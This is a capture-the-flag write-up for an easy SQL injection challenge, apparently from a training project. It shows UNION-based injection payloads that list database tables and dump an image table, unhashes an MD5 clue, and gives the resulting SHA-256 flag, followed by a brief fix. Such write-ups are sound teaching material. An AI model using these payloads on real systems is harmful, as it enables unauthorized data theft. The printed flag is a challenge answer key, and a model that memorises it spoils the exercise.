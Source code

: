 # <span style="text-decoration: underline"> Search Image </span>

- Tags : `SQL Injection`
- Server ip : `192.168.1.17 `
- Difficulty : <span style="color : green">Easy</span>
___


# <span style="text-decoration: underline">problem</span>

When we visit the `SEARCH IMAGE` page from **Home page** we see a page where there is an input for **image number** and a `submit` btton. Like other input in this project this could be a way to do `sql injection` To test we could simply try the `'` character. When we set `'` as input character and siubmit, nothing happens. Let's try `1=0`. Yes!! We have aresult with all the image `name` and `urls`.

# <span style="text-decoration: underline">Solution</span>

## Get the table name of our default database
We have found out many database and table names in the [member](/member.md) challenge. Let's try to findout in which tables does this database (default) contains, from this input.

```sql
1 AND 1=0 UNION SELECT 1, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()) --
```

And we get the following result.

```sql
ID: 1 AND 1=0 UNION SELECT 1, (SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()) -- 
Title: list_images
Url : 1
```

We can see that there is a table called `list_images`. In the [member](/member.md) challenge. we have found out the names of the columns for this table

|No|Table|Column names|
|--|--|--|
|1| **db_default** | `id`, `username`, `password` |
|2| **users** | `user_id`, `first_name`, `last_name`, `town`, `country`, `planet`, `Commentaire`, `countersign`,  |
|3| **guestbook** | `id_comment` , `comment`, `name` |
|4| **list_images** | `id`, `url`, `title`, `comment` |
|5| **vote_dbs** | `id_vote`, `nb_vote`, `subject`|

## View content of the database

Now that we know what we have in the table let's try to extract the data using the same technique from [member](/member.md) challenge. but using the `column` names for this `table`.

```sql
1 AND 1=2 UNION SELECT title, CONCAT(CHAR(124), id, CHAR(124), url, CHAR(124), title, CHAR(124), comment, CHAR(124)) AS name FROM list_images --
```

We get the following respons

|Id|Url|Title|Comment|
|--|--|--|--|
|1|https://www.nsa.org/img.jpg|Nsa|An image about the NSA !|
|2|https://www.42.fr/42.png|42 !|There is a number..|
|4|https://www.obama.org/obama.jpg|Obama|Yes we can !|
|5|borntosec.ddns.net/images.png|Hack me ?|If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46|
|6|https://www.h4x0r3.0rg/tr0ll.png|tr00l|Because why not ?|

## UnHash and Rehash

Much like the [member](/member.md) challenge, we also get a `md5` string that we have to transform it to **lowercase** and then hash it using `sha256`.

- The `md5` hash `1928e8083cf461a51303633093573c46` is of the word `albatroz`
- It is already all lowercase
- The sha256 sum of the word `albatroz` is `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

# How to avoid the problem

Contrary to the challenge [member](/member.md) challenge, they have removed the `error` messages of bad user inputs but did not do anything agains't correct `sql` query as input. Sql injection could be a dengerouis problem which could as fas as compromise the whole system. in our situation the programmer used the raw **user input** data inside the query which in turn let the user control what the quert string becomes and so the result is given. This kind of situation can be avoided easily by not using the user input directly in our string. 


# Flag

```text
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

?> Node : This is the same `flag` as the one we found during the [copytight](/copyright.md) challenge

# Resources

- [member challenge](/member.md)